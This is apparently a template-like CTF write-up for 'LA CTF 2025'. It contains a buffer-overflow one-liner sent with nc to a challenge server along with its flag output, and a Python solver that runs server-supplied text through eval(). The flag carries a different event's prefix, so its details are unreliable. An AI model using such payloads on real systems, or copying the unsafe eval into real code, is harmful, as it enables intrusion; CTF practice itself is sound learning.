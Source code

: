 ```yaml
---
title: "demo1"
event: "LA CTF 2025"
category: "Forensics"
date: "2025-02-18"
difficulty: "Easy"
image: ""
---
```


# Table of Contents
- [Forensics](#forensics)
  - [Memory Analysis Challenge](#memory-analysis-challenge)
- [PWN](#pwn)
  - [Baby Pwn](#baby-pwn)
- [Misc](#misc)
  - [Math Test](#math-test)

# Forensics

## Memory Analysis Challenge

This challenge involved analyzing a memory dump using volatility...

![Challenge Screenshot](/writeups/LA-CTF-2025/images/image1.png)

# PWN

## Baby Pwn

Description: Here's a baby pwn challenge for you to try out. Can you get the flag?

Connection: `nc 34.162.142.123 5000`

Author: atom

### Solution

```bash
┌──(kali㉿LAPTOP-50LBEJ2I)-[~/ctf]
└─$  python3 -c "print('A' * 72 + '\x66\x11\x40\x00\x00\x00\x00\x00')" | nc 34.162.142.123 5000
```

Output:
```bash
Welcome to the Baby Pwn challenge!
Address of secret: 0x401166
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAf@
Congratulations! Here is your flag: uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```

# Misc

## Math Test

Description: Complete this simple math test to get the flag.

Connection: `nc 34.66.235.106 5000`

Author: White

### Solution

```python
import socket
import re

def solve_equation(equation):
    return eval(equation)

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("34.66.235.106", 5000))
    
    while True:
        data = s.recv(4096).decode()
        print(data.strip())  # Print server message
        
        if not data:
            break
            
        match = re.search(r"Question: ([-0-9]+\s*[-+*/]+\s*[-0-9]+(?:\s*[-+*/]+\s*[-0-9]+)*)", data)
        if match:
            equation = match.group(1)
            answer = solve_equation(equation)
            s.send(f"{int(answer)}\n".encode())
            print(f"Answer: {int(answer)}")
    
    s.close()

if __name__ == "__main__":
    main()